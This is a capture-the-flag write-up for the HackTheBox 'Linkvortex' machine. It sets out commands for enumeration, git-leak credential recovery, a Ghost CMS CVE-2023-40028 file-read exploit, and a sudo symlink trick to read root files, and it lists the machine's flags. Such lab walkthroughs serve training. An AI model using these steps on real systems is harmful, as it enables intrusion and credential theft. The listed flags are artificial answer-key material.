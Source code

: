 # 🎯 Linkvortex - HTB Machine
**Category:** Miscellaneous  
**Difficulty:** Medium  
**Platform:** HackTheBox  
**Release Date:** 2023  
**Target IP:** 10.10.11.47

## 📝 Challenge Description
A Ghost CMS instance with potential security misconfigurations and vulnerabilities that could lead to unauthorized access.

## 🔍 Reconnaissance

### Port Scanning
```bash
# Full TCP port scan
nmap -sC -sV -T4 -p- 10.10.11.47
```

**Results:**
| Port | State | Service | Version |
|------|--------|---------|----------|
| 22/tcp | Open | SSH | OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 |
| 80/tcp | Open | HTTP | Apache httpd |

**Additional Details:**
- HTTP server redirects to `http://linkvortex.htb/`
- SSH host keys:
  - ECDSA: `256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb`
  - ED25519: `256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13`

### Web Enumeration

1. **Directory Enumeration (Main Domain)**
```bash
gobuster dir -u http://linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

2. **Subdomain Enumeration**
```bash
ffuf -u http://linkvortex.htb/ -w /usr/share/wordlists/Custom/DNS/n0kovo_subdomains_huge.txt \
     -H "Host:FUZZ.linkvortex.htb" -mc 200 -fs 178 -o dnsresults -of md -v
```

**Discovered Subdomains:**
| Subdomain | Status | Content Length | Type |
|-----------|--------|----------------|------|
| dev | 200 | 2538 | text/html |

3. **Git Repository Enumeration (`dev.linkvortex.htb`)**
```bash
gobuster dir -u http://dev.linkvortex.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

**Exposed Git Files:**
| Path | Status | Size |
|------|--------|------|
| /.git/ | 301 | 239 |
| /.git/HEAD | 200 | 41 |
| /.git/config | 200 | 201 |
| /.git/logs/ | 200 | 868 |
| /.git/index | 200 | 707577 |

### Source Code Analysis

1. **Git Repository Investigation:**
```bash
git status
```
**Output:**
```
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        new file:   Dockerfile.ghost
        modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

```bash
git diff --cached
```
**Output:**
```diff
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
+
+# Prevent installing packages
+RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]

diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```

2. **Critical Findings:**
- Ghost CMS version 5.58.0 identified in Dockerfile
- Exposed credentials in test file:
  - Email: `test@example.com`
  - Password: `OctopiFociPilfer45`
- Configuration files referenced in Dockerfile that might contain sensitive data

3. **Login Portal Analysis:**
- Ghost CMS login portal vulnerable to username enumeration
- **Critical Finding:** Discovered valid admin email `admin@linkvortex.htb`
- This email combined with previously discovered credentials enabled initial access

## 🔓 Initial Access

### Ghost CMS Exploitation
- **Vulnerability:** CVE-2023-40028 (Ghost CMS v5.58)
- **Exploit Tool:**
  ```bash
  ./cve-2023-40028 -u <username> -p <password> -h <host_url>
  ```

### Configuration File Extraction
- **Target File:** `/var/lib/ghost/config.production.json`
- **Retrieved Configuration:**
```json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "SMTP",
    "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
      }
    }
  },
  "spam": {
    "user_login": {
      "minWait": 1,
      "maxWait": 604800000,
      "freeRetries": 5000
    }
  }
}
```

### SSH Access
- Successfully authenticated as user `bob` using discovered credentials
- User flag obtained

## 🔐 Privilege Escalation

### Sudo Permissions Analysis
```bash
sudo -l
```
**Output:**
```
User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

### Root Flag Extraction
1. **Symlink Creation:**
```bash
ln -s /root/root.txt /home/bob/test.txt
ln -s /home/bob/test.txt /home/bob/test.png
```

2. **Exploit Execution:**
```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/test.png
```

## 🏁 Flags
- **User Flag:** `e9e77193e25870661af3813cab24a91c`
- **Root Flag:** `cdf8ecab5aace4312e2b04673c4fe73d`

## 💡 Key Takeaways
1. Always check for exposed Git repositories and analyze their contents
2. Version-specific vulnerabilities in CMS systems can be critical (Ghost CMS 5.58)
3. Configuration files often contain valuable credentials
4. Symlink attacks can be effective for privilege escalation when combined with sudo permissions

## 🛠️ Tools Used
- nmap
- gobuster
- ffuf
- git
- CVE-2023-40028 exploit
- Basic Linux commands (ln, sudo)

## 📚 References
- [Ghost CMS CVE-2023-40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028)
- [Ghost CMS Documentation](https://ghost.org/docs/)
